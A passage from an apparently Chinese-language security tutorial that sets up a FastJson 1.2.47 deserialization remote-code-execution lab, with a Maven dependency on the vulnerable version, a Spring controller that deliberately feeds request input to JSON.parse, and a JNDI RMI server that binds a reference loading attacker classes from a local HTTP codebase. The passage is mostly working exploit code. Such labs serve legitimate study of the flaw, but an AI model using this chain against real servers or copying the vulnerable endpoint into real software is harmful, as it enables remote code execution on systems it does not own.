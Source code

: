 ## 0x05  实战

为了方便搭建环境，我们采用FastJson 1.2.47的RCE来创造反序列化漏洞利用点，我们在pom.xml中配置好我们的依赖，

    
    
     <dependencies>  
        <!-- 配置fastjson -->  
      <dependency>  
       <groupId>com.alibaba</groupId>  
       <artifactId>fastjson</artifactId>  
       <version>1.2.47</version>  
      </dependency>  
            <!-- 配置springboot2 ，小编使用的是2.5.3的版本-->  
        <dependency>  
       <groupId>org.springframework.boot</groupId>  
       <artifactId>spring-boot-starter-web</artifactId>  
      </dependency>  
     </dependencies>  
    

手动创建一个FastJson的利用点，因为在 JDK 18u191, 11.0.1之后
`com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值被调整为false，为了演示，我这里是用了JDK
18u102。``

    
    
    @Controller  
    public class VulController {  
      
        @RequestMapping(value = "/unserializer")  
        @ResponseBody  
        public String unserializer(@RequestParam String code){  
            JSON.parse(code);  
            return "unserializer";  
        }  
    }  
    

创建RMI服务器

    
    
    package com.evalshell.server;  
      
    import com.sun.jndi.rmi.registry.ReferenceWrapper;  
    import javax.naming.Reference;  
    import java.rmi.registry.LocateRegistry;  
    import java.rmi.registry.Registry;  
      
    public class JNDIServer {  
        public static void main(String[] args) throws Exception {  
            Registry registry = LocateRegistry.createRegistry(1099);  
            Reference reference = new Reference("TouchFile",  
                    "com.evalshell.server.TouchFile","http://127.0.0.1:8083/");  
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);  
            registry.bind("Exploit", referenceWrapper);  
        }  
    }  
      